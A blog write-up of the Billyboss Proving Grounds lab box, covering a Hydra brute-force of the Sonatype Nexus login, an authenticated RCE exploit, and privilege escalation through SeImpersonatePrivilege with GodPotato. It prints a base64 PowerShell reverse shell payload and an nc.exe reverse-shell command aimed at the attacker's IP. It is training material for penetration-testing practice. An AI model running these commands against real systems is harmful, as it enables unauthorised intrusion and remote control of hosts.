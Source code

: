 ```yaml
---
layout: writeup
title: Billyboss - Proving Grounds
date: 2024-07-29 13:32:20 +0300
description: A Writeup of the Billyboss Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, LainKusunagi, Hydra]
---
```


Here's a writeup for Roquefort, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Very Hard. Terrifying. Let's get started with an nmap scan which shows:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: BaGet
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
8081/tcp  open  http          Jetty 9.4.18.v20190429
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
|_http-title: Nexus Repository Manager
|_http-server-header: Nexus/3.21.0-05 (OSS)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

There's a lot to to work with here. It looks like we have two web ports - 80 and 8081 - so I start directory scans for those in the background and check out ports 21 and 445 for low hanging fruit. Unfortunately I can not log into FTP on port 21 with anonymous credentials or blank credentials into SMB for port 445. I also try rpcclient, but I can't get anything there either except the domain name (billyboss). So we'll focus on the web ports for now. 

![Billyboss1.png](/assets/images/Billyboss/Billyboss1.png){: .center-aligned width="600px"}

Port 80 looks like a package manager called BaGet. I don't see anything interesting in my directory scan, and can't find anywhere to log in or check credentials. I do see that there appears to be some way to upload packages, but I'm not familiar with the .nupkg file type or what I might be able to do with such an upload, and I can't find any noteworthy public exploits, so I pause on that for the time being and move to port 8081. 

![Billyboss2.png](/assets/images/Billyboss/Billyboss2.png){: .center-aligned width="600px"}

This looks like a repository manager called Sonatype Nexus. We see a sign in page right off the bat. I make a few quick attempts at signing in but nothings. I even find that apparently the default password is `password123`. Oh well. Fortunately we do see that there are some juicy public exploits.

![Billyboss3.png](/assets/images/Billyboss/Billyboss3.png){: .center-aligned width="600px"}

This one should be pretty good given that it's the same version. Unfortunately it's authenticated, so we'll still need to find a way to sign in. (It suggests admin:password, and we already know that doesn't work). At this point, I keep looking around for a while, but there's really nothing else to try on the other ports, and some quick research on BaGet is still steering me away from the application on port 80. Full disclosure, I had at this point also found some newer exploits for [Sonatype Nexus](https://github.com/Praison001/CVE-2024-4956-Sonatype-Nexus-Repository-Manager)but stayed away from them because they were CVE-2024's, and the box came out in 2020. 

Having recently leared about `cewl`, a wordlist generator, it made sense to give that a shot to try and create user and password lists. I run `cewl --lowercase -m 5 http://192.168.198.61:8081/` and get this output:

```
nexus
repository
manager
loading
image
static
rapture
resources
favicon
product
spinner
browse
history
admin
password
password123
```

I added the last three words based on previous info. At that point, I start Burp and make a request to sign in using admin:password123.

![Billyboss4.png](/assets/images/Billyboss/Billybos4.png){: .center-aligned width="600px"}

Unfortunately, it looks like the credentials are being base64 encoded, so we'll have to deal with that when we start brute forcing. Apparently that can be done from within the Hydra command by appending 64 to the variables like so: `^USER64^`. Ultimately the full command is:
`hydra -L billyboss.cewl -P billyboss.cewl -s 8081 192.168.198.61 http-post-form '/service/rapture/session:username=^USER64^&password=^PASS64^:Incorrect'`

And we get a hit of nexus:nexus.

![Billyboss5.png](/assets/images/Billyboss/Billyboss5.png){: .center-aligned width="600px"}

*Note: In looking at writeups later on, it is also possible to find nexus:nexus suggested in `seclists` by navigating to the correct directory and using `grep -r 'Sonatype`.* 

So we add this to the previously discovered exploit, and run it. 
![Billyboss6.png](/assets/images/Billyboss/Billyboss6.png){: .center-aligned width="600px"}

And then after failing to do anything with it, I really you need to change the CMD variable as well. So I change the CMD to `powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEAOAAzACIALAA4ADAAOAAx...` a base64 encoded powershell reverse shell generated from [revshells](revshells.com). 

![Billyboss7.png](/assets/images/Billyboss/Billyboss7.png){: .center-aligned width="600px"}

And we're in. And at first glance, we have some pretty exciting privileges, namely SeImpersonatePrivilege. 

![Billyboss8.png](/assets/images/Billyboss/Billyboss8.png){: .center-aligned width="600px"}

Unfortunately I can't seem to get any of my potato attacks working, and I also have some trouble downloading and executing the usual enumeration powershell scripts or winpeas. Eventually I get winpeas working though, and I can see a couple of exploits pretty quickly. 

![Billyboss9.png](/assets/images/Billyboss/Billyboss9.png){: .center-aligned width="600px"}

I also considered that the lab did come out in 2020, so it's certainly possible that these exploits already existed and are part of the intended path. Plus winpeas conveniently includes the github for one of them called [smbghost](https://github.com/danigargu/CVE-2020-0796), so I decide to try that one first. I copy it to the machine and run it. 

![Billyboss10.png](/assets/images/Billyboss/Billyboss10.png){: .center-aligned width="600px"}

It runs, but it doesn't seem to work. I actually spent a while trying to get variations of this CVE to work, but none of them did, even when I copied them directly from elsewhere. I'm not exactly sure why. At least [one option](https://github.com/Barriuso/SMBGhost_AutomateExploitation) gave the option to inject your own shellcode, but I didn't get this working. I also saw [this video](https://www.youtube.com/watch?v=a0Vf8VLgzhc) which involved editing some of the files and building the exploit, but given that I am working from an ARM machine, this didn't seem practical. 

Ultimately I went back to a Potato attack. `.\GodPotato.exe -cmd "cmd /c nc.exe 192.168.45.183 8081 -e cmd"`

![Billyboss11.png](/assets/images/Billyboss/Billyboss11.png){: .center-aligned width="600px"}

As you can see, the whoami command doesn't seem to work, but clearly we have Administrator privileges given that we are on the Administrator Desktop and are able to view the proof.txt file. I suspect the reason that my previous attempts with the Potato attacks didn't work because I failed to properly quote the full path of nc.exe or something. In this final case I simply transferred the binary over by itself so there were no issues. 

It's interesting, now that we know what we know regarding the SeImpersonatePrivilege, we could probably have created one script to download GodPotato and nc.exe and even executed it from the initial Sonatype Nexus command without even ever getting a console on the target. 

Lessons learned: To be honest, I've been working on Linux Privesc for the last couple of weeks, so it was a nice refresher to get back into Windows. That said, this box would have gone much faster by simply finding the default credentials faster and being more careful with the Potato attacks. I could have run `grep -r Sonatype /usr/share/seclists` for example to find `nexus:nexus`, and I've added that to my notes. Beyond that, I'm not sure a ton was learned. 

Remediation steps:
1. Change the credentials for the Sonatype Nexus web application
2. Patch the Sonatype Nexus application
3. Disable the `SeImpersonatePrivilege` for the `nathan` user on the Billyboss machinec